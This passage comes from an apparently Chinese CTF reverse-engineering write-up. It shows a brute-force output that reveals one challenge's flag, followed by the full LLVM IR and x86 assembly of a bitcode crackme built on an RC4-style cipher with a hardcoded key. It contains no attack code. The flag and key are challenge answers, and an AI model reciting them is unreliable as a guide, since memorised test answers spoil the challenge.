        print(f"种子 {seed:2d}: {plain_str}")
    except:
        # 如果不是纯ASCII，显示hex
        print(f"种子 {seed:2d}: {plain.hex()}")

```

```bash
python3 1.py
直接尝试所有20种种子:
种子  0: 780f845af7010e02ab8853738db9f3a6c78984fd579e77463ec654cac3ac9cbf02ba3040
种子  1: 780f845af7010e02ab8853738db9f3a6c78984fd579e77463ec654cac3ac9cbf02ba3040
种子  2: e5b6a966732c44c3ab0e7f1b32876dc9c59e8fdf7e6249509f0300a708a478d772fa7c1b
种子  3: 25183501f7828c5e83b5235c7e492ae9d3e4c1226f404e91d93bd7c044ad2bcb14de2b36
种子  4: c2faaf3755e7ddf5a63ca9aac54e7b4ecd26391029eaf0fc0d22185390975b18bcd8663c
种子  5: 04148721ca0e747743688bd87bdc0a04a791f46b825b5f7e2bf035d0e41c370a68440a8e
种子  6: a270f5180a8bb2ed081766739a371238bbc7a73df3e87c1565cfa69d052c0297bce7d972
种子  7: ea8ad686cbe53e7fd27c9a319ca4b95849c9a2653475ec2385507bd9315d1893d6005be8
种子  8: 6751cf54f1339a3b3bc41ead1b456f166fdd11101d58f9759cbb4ce0a7e0c4f5083b7034
种子  9: 1cbb487ed463a8084861515bfd13852f0a9f6e3e0136dbfe8f768ea6ed2e1505eb6d4af5
种子 10: 7051cb1ca437c73909861e6d5fcf586d7b7d27b9584e3b9e2a908252684528226b2c01e6
种子 11: a05f98248d99adf78b769dc4f94c6129827f97b737aea5ee7f479e0b07568f939fc7f9d0
种子 12: cf5b5fe99d09c177033d33651a5c68882088ff1932b6cc19ee74816b6ade894f1b07174c
种子 13: b5b452a6da0674e54bd6bf73e92443bb4e4b6037a13f5111a944cf979b725630da4b98cc
种子 14: 044dfa73a74ad3c6554f9b781f4cb4b127a959e07c6beb6de4fa7afdebe045133cafadae
种子 15: caafd0aef6eff6be9dd542e81fae72213608540421eee50a482d7218c8479028be8aa9dd
种子 16: c4deea31-5d10-4b6c-8c45-6afac715eea3
种子 17: a664922a39f1b589fbf2d005eccabe0a0b76aa02beff75ff6bc9a2e747e9b954ece449d0
种子 18: 49d7a2f6a2d0836666182b75c558fa4fc141bd96c821cb40b02b01546e9341d0dbece934
种子 19: 06b1d5236189cdaf5eb148785ebc3999bd288f196362df19fa1fd803a1dd264e022348d9
```

注意：不要在Windows环境运行脚本，否则报错。

很明显flag是**flag{c4deea31-5d10-4b6c-8c45-6afac715eea3}**


+ abc

> bc What is the file

[ ^附件]:abc.zip

`.bc` 文件是LLVM位码文件，LLVM（低级虚拟机）的中间表示（IR），一种与平台无关的二进制中间代码格式

```bash
sudo apt install llvm
llvm-dis a.bc -o a.ll
```

用llvm反编译为llvm-IR代码，

```llvm
; ModuleID = 'a.bc'
source_filename = "ab.c"
target datalayout = "e-m:e-p270:32:32-p271:32:32-p272:64:64-i64:64-i128:128-f80:128-n8:16:32:64-S128"
target triple = "x86_64-pc-linux-gnu"

@stderr = external global ptr, align 8
@.str = private unnamed_addr constant [15 x i8] c"malloc failed\0A\00", align 1
@.str.1 = private unnamed_addr constant [16 x i8] c"realloc failed\0A\00", align 1
@sub_138 = internal constant [10 x i8] c"flag{fake}", align 1
@sub_b361 = internal constant [23 x i8] c"ab#_var1an&_k3y_f0r_???", align 16
@.str.2 = private unnamed_addr constant [30 x i8] c"Incorrect! (length mismatch)\0A\00", align 1
@sub_584c = internal constant [42 x i8] c"\C2\F6\BF\A9\9A\BE$\DCh\0C\F4`\D7\FA\CA,X\CA8\08\89/@$]\87\97\92\A2[\FA\81\BAY\80p\B6d\82S\11]", align 16
@.str.3 = private unnamed_addr constant [10 x i8] c"Correct!\0A\00", align 1
@.str.4 = private unnamed_addr constant [12 x i8] c"Incorrect!\0A\00", align 1

; Function Attrs: noinline nounwind optnone uwtable
define dso_local i32 @main() #0 {
  %1 = alloca i32, align 4
  %2 = alloca i64, align 8
  %3 = alloca i64, align 8
  %4 = alloca ptr, align 8
  %5 = alloca i32, align 4
  %6 = alloca ptr, align 8
  %7 = alloca i64, align 8
  %8 = alloca ptr, align 8
  %9 = alloca [256 x i8], align 16
  %10 = alloca ptr, align 8
  store i32 0, ptr %1, align 4
  store i64 1024, ptr %2, align 8
  store i64 0, ptr %3, align 8
  %11 = load i64, ptr %2, align 8
  %12 = call noalias ptr @malloc(i64 noundef %11) #5
  store ptr %12, ptr %4, align 8
  %13 = load ptr, ptr %4, align 8
  %14 = icmp ne ptr %13, null
  br i1 %14, label %18, label %15

15:                                               ; preds = %0
  %16 = load ptr, ptr @stderr, align 8
  %17 = call i32 (ptr, ptr, ...) @fprintf(ptr noundef %16, ptr noundef @.str)
  store i32 1, ptr %1, align 4
  br label %102

18:                                               ; preds = %0
  br label %19

19:                                               ; preds = %40, %18
  %20 = call i32 @getchar()
  store i32 %20, ptr %5, align 4
  %21 = icmp ne i32 %20, 10
  br i1 %21, label %22, label %47

22:                                               ; preds = %19
  %23 = load i64, ptr %3, align 8
  %24 = load i64, ptr %2, align 8
  %25 = icmp eq i64 %23, %24
  br i1 %25, label %26, label %40

26:                                               ; preds = %22
  %27 = load i64, ptr %2, align 8
  %28 = mul i64 %27, 2
  store i64 %28, ptr %2, align 8
  %29 = load ptr, ptr %4, align 8
  %30 = load i64, ptr %2, align 8
  %31 = call ptr @realloc(ptr noundef %29, i64 noundef %30) #5
  store ptr %31, ptr %6, align 8
  %32 = load ptr, ptr %6, align 8
  %33 = icmp ne ptr %32, null
  br i1 %33, label %38, label %34

34:                                               ; preds = %26
  %35 = load ptr, ptr %4, align 8
  call void @free(ptr noundef %35) #5
  %36 = load ptr, ptr @stderr, align 8
  %37 = call i32 (ptr, ptr, ...) @fprintf(ptr noundef %36, ptr noundef @.str.1)
  store i32 1, ptr %1, align 4
  br label %102

38:                                               ; preds = %26
  %39 = load ptr, ptr %6, align 8
  store ptr %39, ptr %4, align 8
  br label %40

40:                                               ; preds = %38, %22
  %41 = load i32, ptr %5, align 4
  %42 = trunc i32 %41 to i8
  %43 = load ptr, ptr %4, align 8
  %44 = load i64, ptr %3, align 8
  %45 = add i64 %44, 1
  store i64 %45, ptr %3, align 8
  %46 = getelementptr inbounds i8, ptr %43, i64 %44
  store i8 %42, ptr %46, align 1
  br label %19, !llvm.loop !6

47:                                               ; preds = %19
  %48 = load i64, ptr %3, align 8
  %49 = add i64 10, %48
  store i64 %49, ptr %7, align 8
  %50 = load i64, ptr %7, align 8
  %51 = call noalias ptr @malloc(i64 noundef %50) #5
  store ptr %51, ptr %8, align 8
  %52 = load ptr, ptr %8, align 8
  %53 = icmp ne ptr %52, null
  br i1 %53, label %58, label %54

54:                                               ; preds = %47
  %55 = load ptr, ptr %4, align 8
  call void @free(ptr noundef %55) #5
  %56 = load ptr, ptr @stderr, align 8
  %57 = call i32 (ptr, ptr, ...) @fprintf(ptr noundef %56, ptr noundef @.str)
  store i32 1, ptr %1, align 4
  br label %102

58:                                               ; preds = %47
  %59 = load ptr, ptr %8, align 8
  call void @llvm.memcpy.p0.p0.i64(ptr align 1 %59, ptr align 1 @sub_138, i64 10, i1 false)
  %60 = load i64, ptr %3, align 8
  %61 = icmp ugt i64 %60, 0
  br i1 %61, label %62, label %67

62:                                               ; preds = %58
  %63 = load ptr, ptr %8, align 8
  %64 = getelementptr inbounds i8, ptr %63, i64 10
  %65 = load ptr, ptr %4, align 8
  %66 = load i64, ptr %3, align 8
  call void @llvm.memcpy.p0.p0.i64(ptr align 1 %64, ptr align 1 %65, i64 %66, i1 false)
  br label %67

67:                                               ; preds = %62, %58
  %68 = getelementptr inbounds [256 x i8], ptr %9, i64 0, i64 0
  call void @sub_2a4c(ptr noundef %68, ptr noundef @sub_b361, i64 noundef 23)
  %69 = load i64, ptr %7, align 8
  %70 = call noalias ptr @malloc(i64 noundef %69) #5
  store ptr %70, ptr %10, align 8
  %71 = load ptr, ptr %10, align 8
  %72 = icmp ne ptr %71, null
  br i1 %72, label %78, label %73

73:                                               ; preds = %67
  %74 = load ptr, ptr %4, align 8
  call void @free(ptr noundef %74) #5
  %75 = load ptr, ptr %8, align 8
  call void @free(ptr noundef %75) #5
  %76 = load ptr, ptr @stderr, align 8
  %77 = call i32 (ptr, ptr, ...) @fprintf(ptr noundef %76, ptr noundef @.str)
  store i32 1, ptr %1, align 4
  br label %102

78:                                               ; preds = %67
  %79 = getelementptr inbounds [256 x i8], ptr %9, i64 0, i64 0
  %80 = load ptr, ptr %8, align 8
  %81 = load ptr, ptr %10, align 8
  %82 = load i64, ptr %7, align 8
  call void @sub_1a4c(ptr noundef %79, ptr noundef %80, ptr noundef %81, i64 noundef %82)
  %83 = load i64, ptr %7, align 8
  %84 = icmp ne i64 %83, 42
  br i1 %84, label %85, label %90

85:                                               ; preds = %78
  %86 = call i32 (ptr, ...) @printf(ptr noundef @.str.2)
  %87 = load ptr, ptr %4, align 8
  call void @free(ptr noundef %87) #5
  %88 = load ptr, ptr %8, align 8
  call void @free(ptr noundef %88) #5
  %89 = load ptr, ptr %10, align 8
  call void @free(ptr noundef %89) #5
  store i32 0, ptr %1, align 4
  br label %102

90:                                               ; preds = %78
  %91 = load ptr, ptr %10, align 8
  %92 = call i32 @memcmp(ptr noundef %91, ptr noundef @sub_584c, i64 noundef 42) #6
  %93 = icmp eq i32 %92, 0
  br i1 %93, label %94, label %96

94:                                               ; preds = %90
  %95 = call i32 (ptr, ...) @printf(ptr noundef @.str.3)
  br label %98

96:                                               ; preds = %90
  %97 = call i32 (ptr, ...) @printf(ptr noundef @.str.4)
  br label %98

98:                                               ; preds = %96, %94
  %99 = load ptr, ptr %4, align 8
  call void @free(ptr noundef %99) #5
  %100 = load ptr, ptr %8, align 8
  call void @free(ptr noundef %100) #5
  %101 = load ptr, ptr %10, align 8
  call void @free(ptr noundef %101) #5
  store i32 0, ptr %1, align 4
  br label %102

102:                                              ; preds = %98, %85, %73, %54, %34, %15
  %103 = load i32, ptr %1, align 4
  ret i32 %103
}

; Function Attrs: nounwind
declare noalias ptr @malloc(i64 noundef) #1

declare i32 @fprintf(ptr noundef, ptr noundef, ...) #2

declare i32 @getchar() #2

; Function Attrs: nounwind
declare ptr @realloc(ptr noundef, i64 noundef) #1

; Function Attrs: nounwind
declare void @free(ptr noundef) #1

; Function Attrs: noinline nounwind optnone uwtable
define internal void @sub_2a4c(ptr noundef %0, ptr noundef %1, i64 noundef %2) #0 {
  %4 = alloca ptr, align 8
  %5 = alloca ptr, align 8
  %6 = alloca i64, align 8
  %7 = alloca i32, align 4
  %8 = alloca i8, align 1
  %9 = alloca i32, align 4
  %10 = alloca i8, align 1
  %11 = alloca i8, align 1
  store ptr %0, ptr %4, align 8
  store ptr %1, ptr %5, align 8
  store i64 %2, ptr %6, align 8
  store i32 0, ptr %7, align 4
  br label %12

12:                                               ; preds = %22, %3
  %13 = load i32, ptr %7, align 4
  %14 = icmp slt i32 %13, 256
  br i1 %14, label %15, label %25

15:                                               ; preds = %12
  %16 = load i32, ptr %7, align 4
  %17 = trunc i32 %16 to i8
  %18 = load ptr, ptr %4, align 8
  %19 = load i32, ptr %7, align 4
  %20 = sext i32 %19 to i64
  %21 = getelementptr inbounds i8, ptr %18, i64 %20
  store i8 %17, ptr %21, align 1
  br label %22

22:                                               ; preds = %15
  %23 = load i32, ptr %7, align 4
  %24 = add nsw i32 %23, 1
  store i32 %24, ptr %7, align 4
  br label %12, !llvm.loop !8

25:                                               ; preds = %12
  store i8 0, ptr %8, align 1
  store i32 0, ptr %9, align 4
  br label %26

26:                                               ; preds = %78, %25
  %27 = load i32, ptr %9, align 4
  %28 = icmp slt i32 %27, 256
  br i1 %28, label %29, label %81

29:                                               ; preds = %26
  %30 = load ptr, ptr %5, align 8
  %31 = load i32, ptr %9, align 4
  %32 = mul nsw i32 %31, 5
  %33 = add nsw i32 %32, 3
  %34 = sext i32 %33 to i64
  %35 = load i64, ptr %6, align 8
  %36 = urem i64 %34, %35
  %37 = getelementptr inbounds i8, ptr %30, i64 %36
  %38 = load i8, ptr %37, align 1
  store i8 %38, ptr %10, align 1
  %39 = load i8, ptr %8, align 1
  %40 = zext i8 %39 to i32
  %41 = load ptr, ptr %4, align 8
  %42 = load i32, ptr %9, align 4
  %43 = sext i32 %42 to i64
  %44 = getelementptr inbounds i8, ptr %41, i64 %43
  %45 = load i8, ptr %44, align 1
  %46 = zext i8 %45 to i32
  %47 = add nsw i32 %40, %46
  %48 = load i8, ptr %10, align 1
  %49 = zext i8 %48 to i32
  %50 = add nsw i32 %47, %49
  %51 = and i32 %50, 255
  %52 = trunc i32 %51 to i8
  store i8 %52, ptr %8, align 1
  %53 = load ptr, ptr %4, align 8
  %54 = load i32, ptr %9, align 4
  %55 = sext i32 %54 to i64
  %56 = getelementptr inbounds i8, ptr %53, i64 %55
  %57 = load i8, ptr %56, align 1
  store i8 %57, ptr %11, align 1
  %58 = load ptr, ptr %4, align 8
  %59 = load i8, ptr %8, align 1
  %60 = zext i8 %59 to i64
  %61 = getelementptr inbounds i8, ptr %58, i64 %60
  %62 = load i8, ptr %61, align 1
  %63 = load ptr, ptr %4, align 8
  %64 = load i32, ptr %9, align 4
  %65 = sext i32 %64 to i64
  %66 = getelementptr inbounds i8, ptr %63, i64 %65
  store i8 %62, ptr %66, align 1
  %67 = load i8, ptr %11, align 1
  %68 = load ptr, ptr %4, align 8
  %69 = load i8, ptr %8, align 1
  %70 = zext i8 %69 to i64
  %71 = getelementptr inbounds i8, ptr %68, i64 %70
  store i8 %67, ptr %71, align 1
  %72 = load i8, ptr %8, align 1
  %73 = zext i8 %72 to i32
  %74 = load i32, ptr %9, align 4
  %75 = add nsw i32 %73, %74
  %76 = and i32 %75, 255
  %77 = trunc i32 %76 to i8
  store i8 %77, ptr %8, align 1
  br label %78

78:                                               ; preds = %29
  %79 = load i32, ptr %9, align 4
  %80 = add nsw i32 %79, 1
  store i32 %80, ptr %9, align 4
  br label %26, !llvm.loop !9

81:                                               ; preds = %26
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define internal void @sub_1a4c(ptr noundef %0, ptr noundef %1, ptr noundef %2, i64 noundef %3) #0 {
  %5 = alloca ptr, align 8
  %6 = alloca ptr, align 8
  %7 = alloca ptr, align 8
  %8 = alloca i64, align 8
  %9 = alloca i8, align 1
  %10 = alloca i8, align 1
  %11 = alloca i64, align 8
  %12 = alloca i8, align 1
  %13 = alloca i8, align 1
  %14 = alloca i8, align 1
  store ptr %0, ptr %5, align 8
  store ptr %1, ptr %6, align 8
  store ptr %2, ptr %7, align 8
  store i64 %3, ptr %8, align 8
  store i8 0, ptr %9, align 1
  store i8 0, ptr %10, align 1
  store i64 0, ptr %11, align 8
  br label %15

15:                                               ; preds = %99, %4
  %16 = load i64, ptr %11, align 8
  %17 = load i64, ptr %8, align 8
  %18 = icmp ult i64 %16, %17
  br i1 %18, label %19, label %102

19:                                               ; preds = %15
  %20 = load i8, ptr %9, align 1
  %21 = zext i8 %20 to i32
  %22 = add nsw i32 %21, 1
  %23 = and i32 %22, 255
  %24 = trunc i32 %23 to i8
  store i8 %24, ptr %9, align 1
  %25 = load i8, ptr %10, align 1
  %26 = zext i8 %25 to i32
  %27 = load ptr, ptr %5, align 8
  %28 = load i8, ptr %9, align 1
  %29 = zext i8 %28 to i64
  %30 = getelementptr inbounds i8, ptr %27, i64 %29
  %31 = load i8, ptr %30, align 1
  %32 = zext i8 %31 to i32
  %33 = add nsw i32 %26, %32
  %34 = load i8, ptr %9, align 1
  %35 = zext i8 %34 to i32
  %36 = add nsw i32 %33, %35
  %37 = and i32 %36, 255
  %38 = trunc i32 %37 to i8
  store i8 %38, ptr %10, align 1
  %39 = load ptr, ptr %5, align 8
  %40 = load i8, ptr %9, align 1
  %41 = zext i8 %40 to i64
  %42 = getelementptr inbounds i8, ptr %39, i64 %41
  %43 = load i8, ptr %42, align 1
  store i8 %43, ptr %12, align 1
  %44 = load ptr, ptr %5, align 8
  %45 = load i8, ptr %10, align 1
  %46 = zext i8 %45 to i64
  %47 = getelementptr inbounds i8, ptr %44, i64 %46
  %48 = load i8, ptr %47, align 1
  %49 = load ptr, ptr %5, align 8
  %50 = load i8, ptr %9, align 1
  %51 = zext i8 %50 to i64
  %52 = getelementptr inbounds i8, ptr %49, i64 %51
  store i8 %48, ptr %52, align 1
  %53 = load i8, ptr %12, align 1
  %54 = load ptr, ptr %5, align 8
  %55 = load i8, ptr %10, align 1
  %56 = zext i8 %55 to i64
  %57 = getelementptr inbounds i8, ptr %54, i64 %56
  store i8 %53, ptr %57, align 1
  %58 = load ptr, ptr %5, align 8
  %59 = load ptr, ptr %5, align 8
  %60 = load i8, ptr %9, align 1
  %61 = zext i8 %60 to i64
  %62 = getelementptr inbounds i8, ptr %59, i64 %61
  %63 = load i8, ptr %62, align 1
  %64 = zext i8 %63 to i32
  %65 = load ptr, ptr %5, align 8
  %66 = load i8, ptr %10, align 1
  %67 = zext i8 %66 to i64
  %68 = getelementptr inbounds i8, ptr %65, i64 %67
  %69 = load i8, ptr %68, align 1
  %70 = zext i8 %69 to i32
  %71 = add nsw i32 %64, %70
  %72 = and i32 %71, 255
  %73 = sext i32 %72 to i64
  %74 = getelementptr inbounds i8, ptr %58, i64 %73
  %75 = load i8, ptr %74, align 1
  %76 = zext i8 %75 to i32
  %77 = load i8, ptr %9, align 1
  %78 = zext i8 %77 to i32
  %79 = add nsw i32 %76, %78
  %80 = and i32 %79, 255
  %81 = trunc i32 %80 to i8
  store i8 %81, ptr %13, align 1
  %82 = load ptr, ptr %5, align 8
  %83 = load i8, ptr %13, align 1
  %84 = zext i8 %83 to i64
  %85 = getelementptr inbounds i8, ptr %82, i64 %84
  %86 = load i8, ptr %85, align 1
  store i8 %86, ptr %14, align 1
  %87 = load ptr, ptr %6, align 8
  %88 = load i64, ptr %11, align 8
  %89 = getelementptr inbounds i8, ptr %87, i64 %88
  %90 = load i8, ptr %89, align 1
  %91 = zext i8 %90 to i32
  %92 = load i8, ptr %14, align 1
  %93 = zext i8 %92 to i32
  %94 = xor i32 %91, %93
  %95 = trunc i32 %94 to i8
  %96 = load ptr, ptr %7, align 8
  %97 = load i64, ptr %11, align 8
  %98 = getelementptr inbounds i8, ptr %96, i64 %97
  store i8 %95, ptr %98, align 1
  br label %99

99:                                               ; preds = %19
  %100 = load i64, ptr %11, align 8
  %101 = add i64 %100, 1
  store i64 %101, ptr %11, align 8
  br label %15, !llvm.loop !10

102:                                              ; preds = %15
  ret void
}

declare i32 @printf(ptr noundef, ...) #2

; Function Attrs: nounwind willreturn memory(read)
declare i32 @memcmp(ptr noundef, ptr noundef, i64 noundef) #3

; Function Attrs: nocallback nofree nounwind willreturn memory(argmem: readwrite)
declare void @llvm.memcpy.p0.p0.i64(ptr noalias nocapture writeonly, ptr noalias nocapture readonly, i64, i1 immarg) #4

attributes #0 = { noinline nounwind optnone uwtable "frame-pointer"="all" "min-legal-vector-width"="0" "no-trapping-math"="true" "stack-protector-buffer-size"="8" "target-cpu"="x86-64" "target-features"="+cx8,+fxsr,+mmx,+sse,+sse2,+x87" "tune-cpu"="generic" }
attributes #1 = { nounwind "frame-pointer"="all" "no-trapping-math"="true" "stack-protector-buffer-size"="8" "target-cpu"="x86-64" "target-features"="+cx8,+fxsr,+mmx,+sse,+sse2,+x87" "tune-cpu"="generic" }
attributes #2 = { "frame-pointer"="all" "no-trapping-math"="true" "stack-protector-buffer-size"="8" "target-cpu"="x86-64" "target-features"="+cx8,+fxsr,+mmx,+sse,+sse2,+x87" "tune-cpu"="generic" }
attributes #3 = { nounwind willreturn memory(read) "frame-pointer"="all" "no-trapping-math"="true" "stack-protector-buffer-size"="8" "target-cpu"="x86-64" "target-features"="+cx8,+fxsr,+mmx,+sse,+sse2,+x87" "tune-cpu"="generic" }
attributes #4 = { nocallback nofree nounwind willreturn memory(argmem: readwrite) }
attributes #5 = { nounwind }
attributes #6 = { nounwind willreturn memory(read) }

!llvm.module.flags = !{!0, !1, !2, !3, !4}
!llvm.ident = !{!5}

!0 = !{i32 1, !"wchar_size", i32 4}
!1 = !{i32 8, !"PIC Level", i32 2}
!2 = !{i32 7, !"PIE Level", i32 2}
!3 = !{i32 7, !"uwtable", i32 1}
!4 = !{i32 7, !"frame-pointer", i32 2}
!5 = !{!"Ubuntu clang version 14.0.0-1ubuntu1.1"}
!6 = distinct !{!6, !7}
!7 = !{!"llvm.loop.mustprogress"}
!8 = distinct !{!8, !7}
!9 = distinct !{!9, !7}
!10 = distinct !{!10, !7}
```

以上抽象东西请大佬自行享用。我还是干点人事：

```bash
clang -S a.bc -o a.s
```

即用`clang`反汇编得到：

```asm
.text
        .file   "ab.c"
        .globl  main                            # -- Begin function main
        .p2align        4, 0x90
        .type   main,@function
main:                                   # @main
        .cfi_startproc
# %bb.0:
        pushq   %rbp
        .cfi_def_cfa_offset 16
        .cfi_offset %rbp, -16
        movq    %rsp, %rbp
        .cfi_def_cfa_register %rbp
        subq    $336, %rsp                      # imm = 0x150
        movl    $0, -4(%rbp)
        movq    $1024, -16(%rbp)                # imm = 0x400
        movq    $0, -24(%rbp)
        movq    -16(%rbp), %rdi
        callq   malloc@PLT
        movq    %rax, -32(%rbp)
        cmpq    $0, -32(%rbp)
        jne     .LBB0_2
# %bb.1:
        movq    stderr@GOTPCREL(%rip), %rax
        movq    (%rax), %rdi
        leaq    .L.str(%rip), %rsi
        movb    $0, %al
        callq   fprintf@PLT
        movl    $1, -4(%rbp)
        jmp     .LBB0_21
.LBB0_2:
        jmp     .LBB0_3
.LBB0_3:                                # =>This Inner Loop Header: Depth=1
        callq   getchar@PLT
        movl    %eax, -36(%rbp)
        cmpl    $10, %eax
        je      .LBB0_9
# %bb.4:                                #   in Loop: Header=BB0_3 Depth=1
        movq    -24(%rbp), %rax
        cmpq    -16(%rbp), %rax
        jne     .LBB0_8
# %bb.5:                                #   in Loop: Header=BB0_3 Depth=1
        movq    -16(%rbp), %rax
        shlq    %rax
        movq    %rax, -16(%rbp)
        movq    -32(%rbp), %rdi
        movq    -16(%rbp), %rsi
        callq   realloc@PLT
        movq    %rax, -48(%rbp)
        cmpq    $0, -48(%rbp)
        jne     .LBB0_7
# %bb.6:
        movq    -32(%rbp), %rdi
        callq   free@PLT
        movq    stderr@GOTPCREL(%rip), %rax
        movq    (%rax), %rdi
        leaq    .L.str.1(%rip), %rsi
        movb    $0, %al
        callq   fprintf@PLT
        movl    $1, -4(%rbp)
        jmp     .LBB0_21
.LBB0_7:                                #   in Loop: Header=BB0_3 Depth=1
        movq    -48(%rbp), %rax
        movq    %rax, -32(%rbp)
.LBB0_8:                                #   in Loop: Header=BB0_3 Depth=1
        movl    -36(%rbp), %eax
        movb    %al, %dl
        movq    -32(%rbp), %rax
        movq    -24(%rbp), %rcx
        movq    %rcx, %rsi
        addq    $1, %rsi
        movq    %rsi, -24(%rbp)
        movb    %dl, (%rax,%rcx)
        jmp     .LBB0_3
.LBB0_9:
        movq    -24(%rbp), %rax
        addq    $10, %rax
        movq    %rax, -56(%rbp)
        movq    -56(%rbp), %rdi
        callq   malloc@PLT
        movq    %rax, -64(%rbp)
        cmpq    $0, -64(%rbp)
        jne     .LBB0_11
# %bb.10:
        movq    -32(%rbp), %rdi
        callq   free@PLT
        movq    stderr@GOTPCREL(%rip), %rax
        movq    (%rax), %rdi
        leaq    .L.str(%rip), %rsi
        movb    $0, %al
        callq   fprintf@PLT
        movl    $1, -4(%rbp)
        jmp     .LBB0_21
.LBB0_11:
        movq    -64(%rbp), %rax
        movq    sub_138(%rip), %rcx
        movq    %rcx, (%rax)
        movw    sub_138+8(%rip), %cx
        movw    %cx, 8(%rax)
        cmpq    $0, -24(%rbp)
        jbe     .LBB0_13
# %bb.12:
        movq    -64(%rbp), %rdi
        addq    $10, %rdi
        movq    -32(%rbp), %rsi
        movq    -24(%rbp), %rdx
        callq   memcpy@PLT
.LBB0_13:
        leaq    -320(%rbp), %rdi
        leaq    sub_b361(%rip), %rsi
        movl    $23, %edx
        callq   sub_2a4c
        movq    -56(%rbp), %rdi
        callq   malloc@PLT
        movq    %rax, -328(%rbp)
        cmpq    $0, -328(%rbp)
        jne     .LBB0_15
# %bb.14:
        movq    -32(%rbp), %rdi
        callq   free@PLT
        movq    -64(%rbp), %rdi
        callq   free@PLT
        movq    stderr@GOTPCREL(%rip), %rax
        movq    (%rax), %rdi
        leaq    .L.str(%rip), %rsi
        movb    $0, %al
        callq   fprintf@PLT
        movl    $1, -4(%rbp)
        jmp     .LBB0_21
.LBB0_15:
        leaq    -320(%rbp), %rdi
        movq    -64(%rbp), %rsi
        movq    -328(%rbp), %rdx
        movq    -56(%rbp), %rcx
        callq   sub_1a4c
        cmpq    $42, -56(%rbp)
        je      .LBB0_17
# %bb.16:
        leaq    .L.str.2(%rip), %rdi
        movb    $0, %al
        callq   printf@PLT
        movq    -32(%rbp), %rdi
        callq   free@PLT
        movq    -64(%rbp), %rdi
        callq   free@PLT
        movq    -328(%rbp), %rdi
        callq   free@PLT
        movl    $0, -4(%rbp)
        jmp     .LBB0_21
.LBB0_17:
        movq    -328(%rbp), %rdi
        leaq    sub_584c(%rip), %rsi
        movl    $42, %edx
        callq   memcmp@PLT
        cmpl    $0, %eax
        jne     .LBB0_19
# %bb.18:
        leaq    .L.str.3(%rip), %rdi
        movb    $0, %al
        callq   printf@PLT
        jmp     .LBB0_20
.LBB0_19:
        leaq    .L.str.4(%rip), %rdi
        movb    $0, %al
        callq   printf@PLT
.LBB0_20:
        movq    -32(%rbp), %rdi
        callq   free@PLT
        movq    -64(%rbp), %rdi
        callq   free@PLT
        movq    -328(%rbp), %rdi
        callq   free@PLT
        movl    $0, -4(%rbp)
.LBB0_21:
        movl    -4(%rbp), %eax
        addq    $336, %rsp                      # imm = 0x150
        popq    %rbp
        .cfi_def_cfa %rsp, 8
        retq
.Lfunc_end0:
        .size   main, .Lfunc_end0-main
        .cfi_endproc
                                        # -- End function
        .p2align        4, 0x90                         # -- Begin function sub_2a4c
        .type   sub_2a4c,@function
sub_2a4c:                               # @sub_2a4c
        .cfi_startproc
# %bb.0:
        pushq   %rbp
        .cfi_def_cfa_offset 16
        .cfi_offset %rbp, -16
        movq    %rsp, %rbp
        .cfi_def_cfa_register %rbp
        movq    %rdi, -8(%rbp)
        movq    %rsi, -16(%rbp)
        movq    %rdx, -24(%rbp)
        movl    $0, -28(%rbp)
.LBB1_1:                                # =>This Inner Loop Header: Depth=1
        cmpl    $256, -28(%rbp)                 # imm = 0x100
        jge     .LBB1_4
# %bb.2:                                #   in Loop: Header=BB1_1 Depth=1
        movl    -28(%rbp), %eax
        movb    %al, %dl
        movq    -8(%rbp), %rax
        movslq  -28(%rbp), %rcx
        movb    %dl, (%rax,%rcx)
# %bb.3:                                #   in Loop: Header=BB1_1 Depth=1
        movl    -28(%rbp), %eax
        addl    $1, %eax
        movl    %eax, -28(%rbp)
        jmp     .LBB1_1
.LBB1_4:
        movb    $0, -29(%rbp)
        movl    $0, -36(%rbp)
.LBB1_5:                                # =>This Inner Loop Header: Depth=1
        cmpl    $256, -36(%rbp)                 # imm = 0x100
        jge     .LBB1_8
# %bb.6:                                #   in Loop: Header=BB1_5 Depth=1
        movq    -16(%rbp), %rax
        movq    %rax, -48(%rbp)                 # 8-byte Spill
        imull   $5, -36(%rbp), %eax
        addl    $3, %eax
        cltq
        xorl    %ecx, %ecx
        movl    %ecx, %edx
        divq    -24(%rbp)
        movq    -48(%rbp), %rax                 # 8-byte Reload
        movb    (%rax,%rdx), %al
        movb    %al, -37(%rbp)
        movzbl  -29(%rbp), %eax
        movq    -8(%rbp), %rcx
        movslq  -36(%rbp), %rdx
        movzbl  (%rcx,%rdx), %ecx
        addl    %ecx, %eax
        movzbl  -37(%rbp), %ecx
        addl    %ecx, %eax
        andl    $255, %eax
                                        # kill: def $al killed $al killed $eax
        movb    %al, -29(%rbp)
        movq    -8(%rbp), %rax
        movslq  -36(%rbp), %rcx
        movb    (%rax,%rcx), %al
        movb    %al, -38(%rbp)
        movq    -8(%rbp), %rax
        movzbl  -29(%rbp), %ecx
                                        # kill: def $rcx killed $ecx
        movb    (%rax,%rcx), %dl
        movq    -8(%rbp), %rax
        movslq  -36(%rbp), %rcx
        movb    %dl, (%rax,%rcx)
        movb    -38(%rbp), %dl
        movq    -8(%rbp), %rax
        movzbl  -29(%rbp), %ecx
                                        # kill: def $rcx killed $ecx
        movb    %dl, (%rax,%rcx)
        movzbl  -29(%rbp), %eax
        addl    -36(%rbp), %eax
        andl    $255, %eax
                                        # kill: def $al killed $al killed $eax
        movb    %al, -29(%rbp)
# %bb.7:                                #   in Loop: Header=BB1_5 Depth=1
        movl    -36(%rbp), %eax
        addl    $1, %eax
        movl    %eax, -36(%rbp)
        jmp     .LBB1_5
.LBB1_8:
        popq    %rbp
        .cfi_def_cfa %rsp, 8
        retq
.Lfunc_end1:
        .size   sub_2a4c, .Lfunc_end1-sub_2a4c
        .cfi_endproc
                                        # -- End function
        .p2align        4, 0x90                         # -- Begin function sub_1a4c
        .type   sub_1a4c,@function
sub_1a4c:                               # @sub_1a4c
        .cfi_startproc
# %bb.0:
        pushq   %rbp
        .cfi_def_cfa_offset 16
        .cfi_offset %rbp, -16
        movq    %rsp, %rbp
        .cfi_def_cfa_register %rbp
        movq    %rdi, -8(%rbp)
        movq    %rsi, -16(%rbp)
        movq    %rdx, -24(%rbp)
        movq    %rcx, -32(%rbp)
        movb    $0, -33(%rbp)
        movb    $0, -34(%rbp)
        movq    $0, -48(%rbp)
.LBB2_1:                                # =>This Inner Loop Header: Depth=1
        movq    -48(%rbp), %rax
        cmpq    -32(%rbp), %rax
        jae     .LBB2_4
# %bb.2:                                #   in Loop: Header=BB2_1 Depth=1
        movzbl  -33(%rbp), %eax
